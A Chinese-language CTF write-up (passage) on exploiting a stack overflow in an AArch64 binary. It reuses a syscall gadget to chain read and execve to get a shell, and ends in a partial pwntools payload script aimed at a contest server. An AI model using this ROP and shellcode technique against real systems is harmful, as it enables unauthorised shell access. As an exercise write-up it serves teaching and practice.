 然而，找了一上午`gadgets`，没有找到什么有用的，所有的移动寄存器到`R0-R7`的`gadgets`最后都通过寄存器寻址跳走了，难以控制目标地址，于是考虑转换思路，研究出题人是否提供了`seed`（`seed`这个名词对吗？）

于是发现了一个很不自然的函数`welcome`：

![arm3](arm3.png)

这个函数使用`syscall`做了一件事：输出`Welcome! Please say something:`

而且这个`syscall`有一个完整的结构：

```assembly
0x00000000004006dc <+48>:    ldrsw   x0, [sp, #28]
0x00000000004006e0 <+52>:    ldr     w3, [sp, #16]
0x00000000004006e4 <+56>:    ldr     w2, [sp, #20]
0x00000000004006e8 <+60>:    ldr     w1, [sp, #24]
0x00000000004006ec <+64>:    bl      0x419220 <syscall>
```

即从栈上取出`4`个参数，然后调用`syscall`，不需要额外的准备或移动 !!

现在考虑我们如何利用`syscall`来`getshell`：

首先找一下文件中是否存在`/bin/sh\0`，这样可以省去写`data/bss`的操作：`ROPgadget --binary arm --string "/bin/sh"`，然而并不存在。所以我们第一步需要使用`syscall(read, fd, buf, count)`将`/bin/sh\0`写入到我们可以控制的地址上去

然后使用`syscall(execve, filename, argv, envp)`调用`shell`

`AARCH64 Linux System Call`的列表，调用号，调用参数可以在这里找到：[Linux System Call Table - aarch64 (thog.github.io)](https://thog.github.io/syscalls-table-aarch64/latest.html)

接下来就是常规的操作，使用`cyclic`找到溢出所需的偏移量：`144`（覆盖`R30`）

然后构造`payload`：（需要注意的是：系统调用的参数是`32`位的）

```python
from pwn import *


if args.REMOTE:
    p = remote('175.178.248.28', 10047)
else:
    # p = process(['qemu-aarch64', '-g', '1234', 'arm'])
    p = process(['qemu-aarch64', 'arm'])

shell = b'/bin/sh\0'
syscall = 0x4006dc
data = 0x48a048

# 对齐
payload = b'A' * (144-8)

payload += p64(syscall) # 修改 main 的返回地址 syscall (read)

# 第一次调用 syscall 时加载参数的偏移量：0x10
payload += p64(0)       # 占位
payload += p64(syscall) # 第一次 syscall 调用后的返回地址 即再调用一次 syscall (execve)

# 第一次 syscall 参数
payload += p32(len(shell)) # count
payload += p32(data)       # buf
payload += p32(0)          # fd -> stdin
payload += p32(0x3f)       # syscall num

# 第二次 syscall
payload += p64(0)
payload += p64(0)    # 占位符，并且不关心第二次的返回
payload += p32(0)    # envp -> null string
payload += p32(0)    # argv -> null string
```